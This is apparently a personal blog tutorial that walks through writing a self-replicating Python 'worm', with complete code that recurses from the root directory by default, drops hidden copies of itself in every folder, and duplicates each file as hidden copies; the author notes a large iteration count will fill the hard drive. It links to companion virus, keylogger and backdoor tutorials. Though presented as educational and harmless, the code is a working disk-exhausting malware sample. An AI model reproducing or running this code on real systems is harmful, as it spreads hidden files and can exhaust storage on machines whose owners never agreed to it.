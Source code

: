 ```yaml
---
layout: single
title: "Write a Simple Worm (Malware) in Python"
excerpt:  "Writing a worm in Python can seem like a daunting task, but it's an excellent way to learn about computer security and how these types of programs work. In this blog post, I'll show you how to write a basic, harmless worm, all while gaining valuable knowledge about how these programs operate. By following our step-by-step instructions and learning about the inner workings of a worm, you'll be able to create a functional program that won't cause any damage to your system. So, if you're interested in exploring the world of computer security, read on and discover how to write your own educational worm in Python."
seo_title:  "Learn to Write a Basic Harmless Worm (Malware) in Python"
seo_description:  "Want to understand how a worm works? In this blog post, you'll learn how to write a basic educational harmless worm (malware) in Python. With step-by-step instructions, you'll explore the underlying mechanisms of a worm and learn how to create your own version that won't harm your system."
header:
  image: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Worm
  - Virus
  - Malware
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


`Worm` is type of malware that replicates itself and other files to consume spaces in our hard drives. You may find your drives or partitions get full without any visible reason and that might happen because of a `worm`.

A Worm is different than a computer Virus in a way that typical viruses only infects files and worms replicates files and keep the duplicates out of sight (as hidden files).

In this post, we will learn what are the characteristics of a Worm by writing a basic one in python. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [A Basic Keylogger in Python](https://shantoroy.com/security/a-simple-keylogger-in-python/)
* [Write a Backdoor in Python](https://shantoroy.com/security/simple-backdoor-using-python/)


## Requirements
We will need two modules to write a `worm`. Here, `os` is the most important module and we will utilize it to list all files and directories alongside retrieving the absolute paths.

`shutil` is used to copy file contents. There are obviously other ways to do it, however, I chose to do it using `shutil.copyfile()` method.
```python
import os
import shutil
```

## `Worm` Class
First, let's create a `Worm` class and a initializer method to pass initial arguments to our created class. 
```python
class Worm:
    
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path = "/"
        else:
            self.path = path
            
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list = []
        else:
            self.target_dir_list = target_dir_list
            
        if isinstance(target_dir_list, type(None)):
            self.iteration = 2
        else:
            self.iteration = iteration
        
        # get own absolute path
        self.own_path = os.path.realpath(__file__)
```

Here, we have three arguments:
* path: defines where to start looking for directories (default is set to the `root` directory `/`)
* target_dir_list: user can pass a list of initial target directories. By default it is an empty list `[]`
* iteration: I used this parameter to define how many instances the worm will create for each existing file in a directory (default value is `2` only for testing purpose, you can increase or decrease the number, or better provide valur while creating an object of the class)

### Method to list all Directories and Subdirectories
The first method we need is to list all the target directories and subdirectories where we want to copy our worm and existing files in the directories.

Here, I am avoiding hidden files as it includes the parent directories as well (hidden files starts with dot `.` in Linux or macOS). Other than that it adds a file (directories are also called as `file` in Unix-based file systems) if it is a directory and recursively does so for all of the subdirectories.
```python
    def list_directories(self,path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)
        
        for file in files_in_current_directory:
            # avoid hidden files/directories (start with dot (.))
            if not file.startswith('.'):
                # get the full path
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
```

### Method to Replicate the Worm
To replicate the script itself in all the target directories, we get the absolute path of the script we are running, and than copy the contents in the destination directories creating a new hidden file (starts with a dot `.`) with the same name.
```python
    def create_new_worm(self):
        for directory in self.target_dir_list:
            destination = os.path.join(directory, ".worm.py")
            # copy the script in the new directory with similar name
            shutil.copyfile(self.own_path, destination)
```

### Method to copy existing Files
The following method will be used to duplicate files the number of times the value we have from the `iteration` argument. You can put a large number so that the hard drive will be full soon.
```python
    def copy_existing_files(self):
        for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,("."+file+str(i)))
                        shutil.copyfile(source, destination)
```

### Method to integrate everything
In this method, we will call all of our previous methods. So, when we call this method using our created object, the worm will start all the actions sequentially. If you want a timer or datetime, you can add that functionality. Just check the post: [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/). I have added functionality in that post.
```python
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_files()
```

## Main Function
Now, let’s create our main function and run the code
```python
if __name__=="__main__":
    current_directory = os.path.abspath("")
    worm = Worm(path=current_directory)
    worm.start_worm_actions()
```
The whole code is available in [Github](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/worm/worm.py)

Here, to avoid getting our own drive filled up, let's use the existing directory only using `os.path.abspath("")`, and pass that as argument while creating an object of the `Worm` class. Finally we call the integrating method and we are good to go!

You can look at other security concept tutorials in python. I have created a repository for that. I am planning to provide security concepts by writing python codes. Please feel free to put a star if you like the repository.

[Intro to Cybersecurity in Python](https://github.com/shantoroy/intro-2-cybersecurity-in-python)

Also, the associated blog post links are available in the `ReadMe` file over there.

Have a good day! Cheers!!!


If you find this post helpful, and want to support this blog, you can
<script type="text/javascript" src="https://cdnjs.buymeacoffee.com/1.0.0/button.prod.min.js" data-name="bmc-button" data-slug="shantoroy" data-color="#FFDD00" data-emoji=""  data-font="Cookie" data-text="Buy me a coffee" data-outline-color="#000000" data-font-color="#000000" data-coffee-color="#ffffff" ></script> or

<div style="width: 300px; height: 200px;">
<form action="https://www.paypal.com/donate" method="post" target="_top">
<input type="hidden" name="business" value="Q9F45GULUSYMY" />
<input type="hidden" name="no_recurring" value="0" />
<input type="hidden" name="item_name" value="I appreciate your support! 😊" />
<input type="hidden" name="currency_code" value="USD" />
<input type="image" src="https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif" border="0" name="submit" title="PayPal - The safer, easier way to pay online!" alt="Donate with PayPal button" />
<img alt="" border="0" src="https://www.paypal.com/en_US/i/scr/pixel.gif" width="1" height="1" />
</form></div>



---
## Promotions and Referrals (US Residents Only)
* **Chime:** Open a Checking account at Chime using [my referral link](https://chime.com/r/shantoroy) and get $100 after your employer deposit paycheck of minimum $200 within the first 45 days. 
* **Rakuten:** Get $30 after you spend $30 at Rakuten select stores after you use [my referral link](www.rakuten.com/r/STONEH425?eeid=44971) to open an account. 
* **Chase Freedom Credit Card:** Earn $200 cash back with Chase Freedom Unlimited or Chase Freedom Flex credit card. I can be rewarded if you apply using [my referral link](https://www.referyourchasecard.com/18o/E7MB03IG12) and are approved for the card.

* **Chase Checking Account:** Get $200 when you open a checking account using [my referral link](https://accounts.chase.com/raf/share/2564396166) after your first salary is deposited. 
* **Discover:** Earn $50 cash back with Discover when you apply using [my referral link](https://refer.discover.com/s/SHANTO10) and are approved for the card.
* **Amex Blue Cash Preferred:** Earn $250 as statement credit when you spend $3000 in first six months. Apply using [my referral link](https://americanexpress.com/en-us/referral/SHANTRzUOO?XL=MIANS).
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTQxNjg1MzA1Myw1MDEwNjEwODksLTI5NT
Y5MTAxMywyOTg5MzMzNTQsLTE5ODE3NDI2NTUsMTM1NDExNTY4
M119
-->